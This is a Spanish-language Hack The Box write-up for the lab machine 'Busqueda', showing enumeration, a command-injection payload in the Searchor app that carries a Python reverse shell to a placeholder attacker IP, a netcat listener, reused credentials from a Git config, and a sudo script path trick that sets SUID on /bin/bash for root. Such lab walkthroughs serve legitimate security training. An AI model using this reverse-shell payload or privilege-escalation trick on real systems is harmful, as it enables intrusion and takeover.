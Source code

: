 ```yaml
---
layout: single
title: Busqueda - Hack The Box
excerpt: "Busqueda es una máquina Linux de dificultad fácil que implica explotar una vulnerabilidad de inyección de comandos presente en un módulo de Python. Al aprovechar esta vulnerabilidad, obtenemos acceso a nivel de usuario a la máquina. A escalar privilegios a root, descubrimos credenciales dentro de un archivo de configuración de Git, lo que nos permite iniciar sesión en un local Servicio de gitea. Además, descubrimos que se puede ejecutar un script de verificación del sistema con privilegios de root. por un usuario específico. Al utilizar este script, enumeramos los contenedores Docker que revelan las credenciales para el
cuenta Gitea del usuario administrador. Análisis adicional del código fuente del script de verificación del sistema en un El repositorio de Git revela un medio para explotar una referencia de ruta relativa, lo que nos permite la ejecución remota de código (RCE) con privilegios de root."
date: 2023-08-23
classes: wide
header:
  teaser: /assets/images/htb-writeup-busqueda/busqueda_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
 
tags:  
  - burpsuite
  - Command Injection
  - python
  
---
```


![](/assets/images/htb-writeup-busqueda/busqueda_logo.png)

Busqueda es una máquina Linux de dificultad fácil que implica explotar una vulnerabilidad de inyección de comandos presente en un módulo de Python. Al aprovechar esta vulnerabilidad, obtenemos acceso a nivel de usuario a la máquina. A escalar privilegios a root, descubrimos credenciales dentro de un archivo de configuración de Git, lo que nos permite iniciar sesión en un local Servicio de gitea. Además, descubrimos que se puede ejecutar un script de verificación del sistema con privilegios de root. por un usuario específico. Al utilizar este script, enumeramos los contenedores Docker que revelan las credenciales para el
cuenta Gitea del usuario administrador. Análisis adicional del código fuente del script de verificación del sistema en un El repositorio de Git revela un medio para explotar una referencia de ruta relativa, lo que nos permite la ejecución remota de código (RCE) con privilegios de root.

# 1. Enumeración
   
Iniciamos con un escaneando de puertos de la máquina con Nmap.

## Portscan
Encontramos dos puertos abiertos. 
•	22 de SSH 
•	80 de HTTP

![](/assets/images/htb-writeup-busqueda/portscan.png)

Realizamos un “Curl” para obtener información adicional.

![](/assets/images/htb-writeup-busqueda/curl.png)

Agregamos el dominio encontrado en el archivo “/etc/hosts” para que sepa a donde resolver cuando apuntemos a él.

![](/assets/images/htb-writeup-busqueda/hosts.png)

## Website
Navegamos hasta el servicio web. Encontramos que es una aplicación que se utiliza para realizar búsquedas con diferentes buscadores.

•	https://github.com/ArjunSharda/Searchor.

![](/assets/images/htb-writeup-busqueda/web.png)

## Burp Suite
Vamos a realizar una búsqueda cualquiera e interceptamos la petición con BurpSuite.

![](/assets/images/htb-writeup-busqueda/burp.png)

# 2. Explotación

Realizamos la busqueda de posible exploit para el buscardor "searchor".

•	Exploit: https://github.com/jonnyzar/POC-Searchor-2.4.2

Debemos inyectar una carga en la peticion interceptada por Burp.

Carga Util:

•	', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('IP-ATACANTE',PORT-ATACANTE));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#

Interceptamos la petición con BurpSuite y agregamos nuestra carga útil.

![](/assets/images/htb-writeup-busqueda/burp2.png)

Paralelamente debemos ponernos en escucha por el puerto donde vamos a recivbir nuestra conexión (4444) y enviamos la petición desde Burp Suit.
•	nc -nlvp 444
Luego de enviar la peicion, vamos a recibir nuestra shell de la maquina, ahora generamos una terminal ( tty) mas facil de maenjar a través de Python y capturamos nuestra flag de usuario estandar.

![](/assets/images/htb-writeup-busqueda/rever.png)

## 3. Escalación de Privilegios

Listamos el directorio /var/www/app y encontramos “.git”.

![](/assets/images/htb-writeup-busqueda/list.png)

Nos dirigimos al directorio encontrado y volvemos a listar. Ahora encontramos un archivo de configuración.

![](/assets/images/htb-writeup-busqueda/config.png)

Leemos el archivo y encontramos un usuario y una contraseña asociado a un acceso a un dominio.

![](/assets/images/htb-writeup-busqueda/config2.png)

Nos conectamos por ssh con esas credenciales.

![](/assets/images/htb-writeup-busqueda/ssh.png)

Reutilizamos la contraseña para saber que permisos SUDO tiene el usuario “svc”.

![](/assets/images/htb-writeup-busqueda/sudo.png)

No podemos leer el archivo, pero podemos ver algunos de los parámetros permitidos.

•	sudo /usr/bin/python3 /opt/scripts/system-checkup.py *

![](/assets/images/htb-writeup-busqueda/sudo2.png)

![](/assets/images/htb-writeup-busqueda/sudo3.png)

•	Enlace: https://docs.docker.com/engine/reference/commandline/inspect/

•	sudo python3 /opt/scripts/system-checkup.py docker-inspect --format='{{json .Config}}' mysql_db

![](/assets/images/htb-writeup-busqueda/sudo4.png)


Credenciales:

•	yuiu1hoiu4i5ho1uh

•	jI86kGUuj87guWr3RyF



#!/bin/bash 
chmod +s /bin/bash
cat full-checkup.sh
chmod +x full-checkup.sh


![](/assets/images/htb-writeup-busqueda/sudo5.png)

•	sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup

•	ls -l /bin/bash

•	bash -p

Luego de cambiar a usuario root, capturamos nuestra flag.

•	whoami

•	cat /root/root.txt

![](/assets/images/htb-writeup-busqueda/sudo6.png)
